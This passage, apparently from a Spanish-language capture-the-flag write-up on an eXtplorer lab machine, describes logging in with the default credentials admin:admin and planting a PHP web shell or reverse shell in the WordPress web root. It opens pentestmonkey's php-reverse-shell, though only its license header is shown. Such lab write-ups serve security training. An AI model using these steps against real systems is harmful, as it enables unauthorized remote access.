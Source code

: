 Dado que no tengo credenciales válidas, voy a probar las típicas para cualquier servicio: <span style="color:#E57373;">admin:admin</span>.

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/Pasted image 20250301232538.png">
</p>

Y son válidas, estoy dentro 🥳

# Reverse Shell como www-data

Veo que los archivos existentes son, seguramente, parte del WordPress que está corriendo en la raíz del servidor web. Por tanto, podría intentar crear un archivo cmd.php para ejecutar comandos o lanzarme directamente una shell en PHP.

<p align="center">
<img src="/assets/images/pg-writeup-extplorer/Pasted image 20250301233216.png">
</p>

Reverse shell directamente en PHP:

Si prefieres lanzarte directamente una reverse shell en PHP, solo tienes que acceder al archivo, insertar el siguiente contenido y editarlo con tu IP y el puerto al que deseas recibir la conexión.

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
```
